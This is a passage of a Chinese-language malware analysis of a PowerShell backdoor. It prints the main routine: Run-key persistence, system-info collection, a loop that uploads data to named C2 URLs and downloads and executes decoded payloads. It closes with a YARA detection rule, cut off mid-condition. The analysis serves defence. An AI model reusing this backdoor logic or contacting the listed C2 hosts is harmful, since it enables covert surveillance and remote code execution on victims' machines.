 主函数中的调用逻辑如下

```
function main
    Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
    $FilePath = $env:APPDATA + $LOG_FILEPATH
    New-Item -Path $FilePath -Type directory -Force
    $szLogPath = $FilePath + $LOG_FILENAME
    $key = Get-Item -Path $RegKey
    $exists = $key.GetValueNames() -contains $RegValueName
    if($exists -eq $False)
        $value1 = New-ItemProperty -Path $RegKey -Name $RegValueName
        Get_info $szLogPath
    while ($true)
        FileUploading $szLogPath
        Start-Sleep -Milliseconds 10000
        Download
        Start-Sleep -Milliseconds $TIME_VALUE
```

在main函数中，程序首先会判断是否存在目标的Run键值，如果不存在则将自身写入到Run键值中，实现本地持久化。

接着程序会通Get_info函数获取计算机的基本信息比如ProgramFiles下的文件信息、Program File (x86)下的文件信息、Systeminfo信息、Tasklist等等，写入到预定义好的%APPDATA%\Alzip\Alzip.hwp 中

然后通过一个永真循环，一边将本地收集到的信息通过FileUploading上传到指定的C2：<br>
hxxp[:]//goldbin.myartsonline.com/le/post.php

一边调用Download方法尝试从C2下载后续payload到本地继续执行。

download函数中的delphppath路径为:<br>[http://goldbin.myartsonline.com/le/del.php](http://goldbin.myartsonline.com/le/del.php)

后续payload的下载路径为：<br>[http://goldbin.myartsonline.com/le/yj.down](http://goldbin.myartsonline.com/le/yj.down)

然后程序通过WebClient的方式建立连接下载yj.down到本地并通过decode函数进行解码。解码之后通过InvokeCommand进行执行。

应该是由于样本在Twitter上被公布，攻击者目前已经关闭了该服务器的服务。<br>
所以只能从其他地方寻找后续。

顺便补充一个针对此powershell的yara规则

```
import "pe"
rule KimSuky_Ps_Backdoor
`{`
    meta:
        description = "powershell backdoor"
        author = "p1ut0"
        date = "2020-10-12"
        reference = "https://twitter.com/cyberwar_15/status/1315160377156460544"
        hash = "772a5abc0e946230a50628db4a08dd80"

    strings:
        $url_string1 = "$downname = $LocalID + \".down\""   fullword ascii

        $url_execPs = "cmd.exe / c powershell.exe -windowstyle hidden IEX"

        $file_op1 = "dir $env:ProgramFiles &gt;&gt; $logpath" fullword ascii
        $file_op2 = "dir \"C:\\Program Files (x86)\" &gt;&gt; $logpath"   fullword ascii
        $file_op3 = "systeminfo &gt;&gt; $logpath"    fullword ascii
        $file_op4 = "tasklist &gt;&gt; $logpath"  fullword ascii
    condition:
        (
            uint16(0) != 0x5A4D
        )
        and
        (
```